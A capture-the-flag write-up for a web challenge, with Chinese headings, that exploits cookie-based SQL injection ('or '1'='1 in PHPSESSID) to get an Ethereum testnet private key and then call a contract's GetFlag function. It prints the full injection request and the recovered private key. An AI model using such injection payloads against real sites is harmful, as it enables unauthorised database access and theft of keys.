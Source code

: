### 1.题目名称

Bitcoin private-key system



### 2.题目类型

web(middle)


### 4.考察知识点

cookie sqli and  basic ethereum conceptions



### 5.解题思路


By simple test, we can observe the sqli in the PHPSESSID(cookie), so we could accomplish the sqli with sqlmap or using the following payload:

```
GET /index.php HTTP/1.1
Host: 127.0.0.1:8004
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6
Cookie: PHPSESSID=qumofaj5cjgljuetdfbr2gdb35' or '1'='1
Connection: close
```

Then we get the Ethereum private key for 0xF16CE8A0dE02f72f1adE0359217F530df8Abf944 in Ropsten Test Network:

386BD35D089B7D6FDB7DDF0FDA67E3F0801DB92BC215909D89A92876E5F13250

And we find a contract 0xffd66e653e0675c5dd78d051545777a8007c4625 owned by this address, then we could get the source code of this contract in https://ropsten.etherscan.io/address/0xffd66e653e0675c5dd78d051545777a8007c4625#code, and there is a function named GetFlag:


    function GetFlag(string email) OnlyOwner payable public{
        if(msg.value >= 0.1 ether){
        emit SendFlag(email);
        }
    }


And we can guess if we trigger this function successfully, the flag might be sent to the email we provided. After you have done these steps, the flag (base64 encode) will lies in your mail box.










